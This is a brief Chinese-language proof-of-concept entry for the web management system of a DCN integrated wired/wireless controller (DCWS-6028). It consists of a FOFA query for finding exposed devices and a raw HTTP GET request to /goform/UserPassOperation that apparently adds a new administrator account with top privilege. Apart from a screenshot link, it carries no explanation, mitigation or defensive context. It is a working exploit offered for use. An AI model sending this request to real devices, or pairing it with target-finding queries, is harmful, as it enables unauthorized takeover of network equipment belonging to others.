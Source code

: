 ## DCN有线无线智能一体化控制器WEB管理系统



## fofa

```
app="DCN-DCWS-6028"
```

## poc

```
GET /goform/UserPassOperation?user=admin333&password=123456&userpriority=15&operation=1 HTTP/1.1
Host: your-ip
Content-Length: 2
```



![image-20240525204429235](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405252044322.png)